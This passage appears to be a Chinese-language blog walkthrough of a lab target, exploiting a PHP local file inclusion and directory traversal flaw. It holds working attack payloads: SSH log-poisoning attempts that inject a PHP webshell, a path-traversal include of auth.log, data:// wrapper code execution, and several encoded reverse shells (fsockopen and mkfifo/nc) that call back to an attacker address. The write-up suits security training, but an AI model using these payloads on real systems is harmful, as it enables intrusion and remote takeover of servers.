 ![Img](https://img2022.cnblogs.com/blog/2361096/202203/2361096-20220316204209923-42803824.png)  
发现路径参数也可控，所以存在**本地文件包含漏洞（LFI）**，而且包含的是敏感型文件，说明还存在**目录遍历漏洞**  
所以接下来就好玩了，可以包含任意文件，那就也可以是webshell，然后用蚁剑或冰蝎等进行连接，但前提是判断**服务器语言环境**以及找到**上传webshell的地方**

1.  **后端环境为php环境**  
    简单判断了一下，或者也可以用Wappalyzer等插件确定  
    ![Img](https://img2022.cnblogs.com/blog/2361096/202203/2361096-20220316204210412-296849994.png)
2.  **上传webshell的地方**  
    这个地方，可以通过污染日志文件的方式达到目的

    ssh '<?php phpinfo();?>'@172.16.95.139
    ssh '<?php system($_GET['shell']); ?>'@172.16.95.139
    

![Img](https://img2022.cnblogs.com/blog/2361096/202203/2361096-20220316204210685-647760473.png)  
这个肯定连接不上，因为压根没有这个用户名，但这里目的是为了污染ssh的连接日志文件。  
为了验证是否成功污染，之前污染了phpinfo的内容进入日志，可以先包含一下看看：

    ?file=../../../../../../var/log/auth.log
    

_**最后好像失败了，应该是没有被污染，没想明白，这里记录一下，一会儿打进去看一下；**_

> 一会儿找到答案后记录在此  
> 第一关打入进去之后，发现就没有此日志文件，后来才明白过来，这是个容器，而ssh的端口是宿主机的，然而宿主机的80端口映射到了容器中，这个漏洞网站是运行在容器中的，打死也包含不上啊，=-=

这里利用**伪协议**再次尝试:  
首先是用了data伪协议：

    ?file=data:// text/plain,<?php phpinfo();?>
    ?file=data:// text/plain;base64,PD9waHAgcGhwaW5mbygpPz4=
    

![Img](https://img2022.cnblogs.com/blog/2361096/202203/2361096-20220316204211018-2079246692.png)  
成功！！！那就可以使用data协议进行反弹shell了，如下是代码（一定要记得URL编码，否则代码中的一些字符例如&会被浏览器解析而无法进入后台执行）：  
**开启nc进行监听**

    nc -lnvp 6666
    

**反弹shell**

    ?file=data://text/plain,<?php %24sock%3dfsockopen("172.16.95.133","6666")%3bexec(%22%2fbin%2fsh%20-i%20%3c%263%20%3e%263%202%3e%263%22)%3b?>
    

![Img](https://img2022.cnblogs.com/blog/2361096/202203/2361096-20220316204211361-959418051.png)  
直接执行php的反弹代码，结果一闪而过，应该是代码执行后就进行内存回收了，所以无法持续链接。所以需要可以采用如下的办法实现：

    ?file=data://text/plain,<?php $var=shell_exec($_GET['d']);echo $var;?>&d=rm%20%2ftmp%2ff%3bmkfifo%20%2ftmp%2ff%3bcat%20%2ftmp%2ff%7c%2fbin%2fsh%20-i%202%3e%261%7cnc%20172.16.95.133%206666%20%3e%2ftmp%2ff
    
    // 或者采用base64转换后：
    ?file=data://text/plain;base64,
    PD9waHAgJHZhcj1zaGVsbF9leGVjKCRfR0VUWydkJ10pO2VjaG8gJHZhcjs/Pg==&d=rm%20%2ftmp%2ff%3bmkfifo%20%2ftmp%2ff%3bcat%20%2ftmp%2ff%7c%2fbin%2fsh%20-i%202%3e%261%7cnc%20172.16.95.133%206666%20%3e%2ftmp%2ff
    